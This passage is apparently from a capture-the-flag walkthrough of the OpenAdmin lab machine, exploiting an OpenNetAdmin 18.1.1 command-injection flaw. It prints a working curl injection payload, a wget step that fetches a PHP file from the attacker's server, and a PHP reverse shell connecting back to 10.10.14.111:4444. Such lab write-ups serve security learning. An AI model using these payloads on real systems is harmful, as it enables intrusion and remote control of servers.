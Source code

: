 ```searchsploit openNetAdmin``` confirms the suspicions. There’s an RCE vulnerability in version 18.1.1. It seems it can be run via metasploit. However, the scripts are simple enough to run them by hand. 

![](images/OpenAdmin_4.png?raw=true)

You just need to copy the curl command and change ```${cmd}``` with the command you want. Sounds easy, right?

## Reverse shell

Well, it took me longer than expected to achieve a reverse shell. Everything made it seem like I was missing some url encoding of certain characters. I attempted that with Burp.

I started Burp up and changed the browser’s proxy settings to point towards Burp interceptor.

![](images/OpenAdmin_5.png?raw=true)

I opened ```10.10.10.171/ona/``` in my browser. This was captured by Burp. Right click and send to repeater.

In the repeater, I modified the request to be a POST instead of a GET and to send the appropriate data, but somehow it kept failing to retrieve what I was expecting. I then attempted directly with curl, running the following: 
```
curl -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/
```

We get a result where we can read ```www-data```, as expected (see the ```whoami``` command embedded in the curl request). But, once again, how to achieve a reverse shell?

I started to poke around with the curl request above, trying to get a sense of what could be done. What I found out was that the files that were supposed to be at the root of the ```/ona/``` URL (```login.php```, ```index.php```, ```logout.php```, etc., from the output of dirbuster) where all placed in the same folder where the commands were executed. So, if I can upload a php file and browse to it, the server will serve it and execute it.

I wrote a php file with the command to achieve a reverse shell (from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) and attempted to upload it by changing ```whoami``` in the curl request by ```wget``` (note that the backward slash is needed since we’re inside the ```-d``` curl argument):
```
kali$  python3 -m http.server 8080
curl-command >  wget \”http://10.10.14.111:8081/script.php\”
curl-command > ls -la
```
![](images/OpenAdmin_6.png?raw=true)

**NOTE**: I didn’t succeed at first, so I attempted to upload the script several times. The scripts do not get renamed (see ```script.php``` and ```script.php.1```). Take that into account.

The script ended up being just this:
```php
<?php
$sock=fsockopen(“10.10.14.111”,4444);
exec(“/bin/sh -i <&4 >&4 2>&4”);
?>
```
